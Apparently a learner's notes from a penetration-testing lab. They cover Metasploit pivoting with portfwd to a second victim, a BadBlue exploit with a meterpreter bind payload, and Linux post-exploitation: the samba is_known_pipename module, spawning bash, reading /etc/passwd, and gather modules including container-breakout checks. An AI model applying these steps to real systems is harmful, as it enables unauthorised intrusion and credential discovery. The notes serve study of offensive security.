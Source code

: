 Session1
`portfwd add -l 1234 -p 80 -r <victim2s ip>`
-> forwards port 80 of victim2 to port 1234 on local host
-> appears in browser but does not render properly (just basic portforwarding)

`db_nmap -sS -sV -p 1234 localhost`
-> now can see service running on victim2 port 80

badblue vuln
`set LPORT 1234`

`set PAYLOAD windows/meterpreter/bind_tcp` had to use this payload


# Linux Post Exploit


Demo:
/samba/is_known_pipename


`sessions -u 1`

bash on linux is cool
`shell`
`/bin/bash -i`

`cat /etc/passwd`
-> Mostly service accounts, but some users are here
-> service account primarily used for managing web services (eg www-data)
`
`groups root`

`cat /etc/*issue`
-> enumerate distribution version (Debian GNU/Linux etc)

kernal information
`uname -r`
`uname -a`

List out processes
`ps aux`

Check environment variables
`env`

Enumerate the session for linux config files
/linux/gather/enum/configs

Some post exploit enum mdoules
/gather/env
/gather/enum_network -> the network configs
/gather/enum_network
/gather/enum_protections -> checks for system hardening mechanisms
/gather/enum_system
/gather/checkcontainer -> to break out of docker container
/gather/checkvm
